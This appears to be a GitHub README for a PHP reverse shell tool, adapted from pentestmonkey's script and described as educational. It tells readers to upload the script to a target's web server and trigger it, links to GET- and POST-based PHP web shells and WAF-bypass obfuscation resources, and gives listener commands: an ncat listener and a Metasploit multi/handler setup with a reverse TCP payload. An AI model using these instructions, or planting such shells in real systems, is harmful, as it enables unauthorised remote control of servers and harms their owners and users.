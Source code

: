 # PHP Reverse Shell

Just a little refresh on the popular PHP reverse shell script [pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell). Credits to the original author!

Works on Linux OS and macOS with `/bin/sh` and Windows OS with `cmd.exe`. Script will automatically detect an underlying OS.

Works with both `ncat` and `multi/handler`.

Tested on XAMPP for Linux v7.3.19 (64-bit) with PHP v7.3.19 on Kali Linux v2020.2 (64-bit).

Tested on XAMPP for OS X v7.4.10 (64-bit) with PHP v7.4.10 on macOS Catalina v10.15.6 (64-bit).

Tested on XAMPP for Windows v7.4.3 (64-bit) with PHP v7.4.3 on Windows 10 Enterprise OS (64-bit).

In addition, everything was tested on Docker images [nouphet/docker-php4](https://hub.docker.com/r/nouphet/docker-php4) with PHP v4.4.0 and [steeze/php52-nginx](https://hub.docker.com/r/steeze/php52-nginx) with PHP v5.2.17.

Made for educational purposes. I hope it will help!

**Process pipes on Windows OS do not support asynchronous operations so `stream_set_blocking()`, `stream_select()`, and `feof()` will not work properly, but I found a workaround.**

## How to Run

[/src/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell.php) requires PHP v5.0.0 or greater, mainly because `proc_get_status()` is being used.

[/src/php_reverse_shell_older.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell_older.php) requires PHP v4.3.0 or greater.

**Change the IP address and port number inside the script as necessary.**

Copy [/src/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell.php) to your server's web root directory (e.g. to /opt/lampp/htdocs/ on XAMPP) or upload it to your target's web server.

Navigate to the file with your preferred web browser.

---

Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/simple_php_web_shell_post.php) based on HTTP POST request.

Check the [simple PHP web shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/simple_php_web_shell_get.php) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org/) your commands.

Check the [simple PHP web shell v2](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/simple_php_web_shell_get_v2.php) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org/) your commands.

Find out more about PHP obfuscation techniques for older versions of PHP at [lcatro/PHP-WebShell-Bypass-WAF](https://github.com/lcatro/PHP-WebShell-Bypass-WAF). Credits to the author!

---

Check the minified scripts in [/src/minified/](https://github.com/ivan-sincek/php-reverse-shell/tree/master/src/minified) directory.

## Set Up a Listener

To set up a listener, open your preferred console on Kali Linux and run one of the examples below.

Set up an `ncat` listener:

```fundamental
ncat -nvlp 9000
```

Set up a `multi/handler` module:

```fundamental
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 192.168.8.185

set LPORT 9000

exploit
```

## Images

<p align="center"><img src="https://github.com/ivan-sincek/php-reverse-shell/blob/master/img/ncat.jpg" alt="Ncat"></p>

<p align="center">Figure 1 - Ncat</p>

<p align="center"><img src="https://github.com/ivan-sincek/php-reverse-shell/blob/master/img/scripts_dump.jpg" alt="Script Dump"></p>

<p align="center">Figure 2 - Script's Dump</p>
